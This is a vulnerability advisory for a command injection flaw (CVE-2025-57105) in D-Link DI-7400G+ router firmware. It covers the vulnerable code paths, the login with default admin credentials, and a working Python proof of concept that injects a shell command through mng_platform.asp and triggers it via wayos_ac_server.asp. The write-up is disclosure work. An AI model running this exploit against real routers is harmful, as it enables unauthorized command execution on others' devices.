

# CVE-2025-57105 Command Injection

## Information

**Vendor of the products:**  D-Link

**Vendor's website:** https://www.dlink.com.cn/

**Affected products:** DI_7400G+

**Affected firmware version:** V19.12.25A1

**Firmware download address:** [D-Link Technical Support]([D-Link | Welcome](https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-7400G%2B))


**Vulnerability File:**
```
mng_platform.asp、wayos_ac_server.asp
```

## Description

1. Drag the `jhttpd` program into IDA for reverse engineering.
The `sub_478D28` function is as follows: the addr parameter can be controlled via `GET` (since `httpd_get_parm` retrieves parameters through the `GET` method), and it is set in the `ac_mng_srv_host` item in `nvram`.
The URL interface corresponding to this function is `mng_platform.asp`.

    

2. In the `sub_4A12DC` function, the value of the `ac_mng_srv_host` item is retrieved and then passed as an argument to the `system` function for execution. Since no filtering is performed beforehand, this results in a command injection vulnerability.
The function corresponds to the url interface `wayos_ac_server.asp`. By accessing this url page, the corresponding function is executed, thereby triggering the vulnerability.

    

3. Combining the disassembly of the `sub_478D28` and `sub_4A12DC` functions, the command execution logic is as follows:

    ```C
    v13 = nvram_get("proxy_ac_status");
    v14 = nvram_get("ac_server_enable");
    if (v13 && strcmp(v13,"1")==0 && v14 && strcmp(v14,"1")==0) {
        snprintf(v45, 1024,
            "proxy_client \"%s\" \"%s\" \"%s\" \"%s\" \"%s\" \"%s\" \"%s\" &",
            ac_mng_srv_host,
            proxy_http_srvport,
            lan_ipaddr,
            acserver_http_port,
            "proxy_ac_port",
            "proxy_ac_msg",
            "proxy_ac_pid"
        );
        jhl_system(v45);
    }
    ```

    Prerequisites:

    The HTTP request must contain `opt=proxy`;

    Two key values in `NVRAM` must both be set to "1":

    `proxy_ac_status == "1"`
    `ac_server_enable == "1"`

    Other NVRAM values, such as `ac_mng_srv_host`, can be injected with a payload and are not filtered.

    An attacker can write a payload through the interface (e.g., `ac_mng_srv_host=evil"; echo hello > /tmp/poc.txt;`), and then access the corresponding interface to trigger `proxy_client` execution.

## Vulnerability Verification Process

1. First, use FirmAE software to simulate the firmware
    ```Bash
    sudo ./run.sh -d di ../fmwares/DI_7400G+-19.12.25A1.trx 
    ```

    

2. Use default username/password to login webpage

    ```text
    username/password：admin/admin
    ```

    

    

3. Turn on the AC service switch to meet one of the prerequisites for triggering the vulnerability exploit

    

4. The first request writes the payload into the NVRAM field ac_mng_srv_host by passing it through the addr parameter in the mng_platform.asp interface. Here the payload is `echo 12345 > poc.txt`, which will later be executed.

    

5. The second request accesses wayos_ac_server.asp with parameters that cause the system to call the vulnerable function. This triggers the execution of the previously injected payload, leading to command execution (in this example, creating poc.txt containing 12345).

    

## POC:
```python

    import requests
    import time
    # Create a session object
    session = requests.session()
    # Login request URL and header information
    login_url = "http://192.168.0.1/login.cgi"
    login_headers = {
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Content-Type": "application/x-www-form-urlencoded",
        "Origin": "http://192.168.0.1",
        "Connection": "close",
        "Referer": "http://192.168.0.1/login.html",
        "Upgrade-Insecure-Requests": "1"
    }
    login_data = {
        "user": "admin",
        "password": "admin"
    }
    # POST request to login
    login_response = session.post(login_url, headers=login_headers, data=login_data)
    print(login_response)
    # Prepare a request to execute the command
    command_url1 = f"http://192.168.0.1/mng_platform.asp?addr=`echo 12345 > poc.txt`"
    print(command_url1)
    command_url2 = f"http://192.168.0.1/wayos_ac_server.asp?enable=1"
    print(command_url2)
    command_url3 = f"http://192.168.0.1/wayos_ac_server.asp?opt=proxy&mode=1&status=1"
    print(command_url3)

    command_headers = {
            "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
            "Accept-Language": "en-US,en;q=0.5",
            "Accept-Encoding": "gzip, deflate, br",
            "Connection": "close",
            "Upgrade-Insecure-Requests": "1"
    }
    # GET request to execute the command
    res1 = session.get(command_url1, headers=command_headers)
    print(res1.text)
    time.sleep(2)
    res2 = session.get(command_url2, headers=command_headers)
    print(res2.text)
    time.sleep(2)
    res3 = session.get(command_url3, headers=command_headers)
    print(res3.text)
```


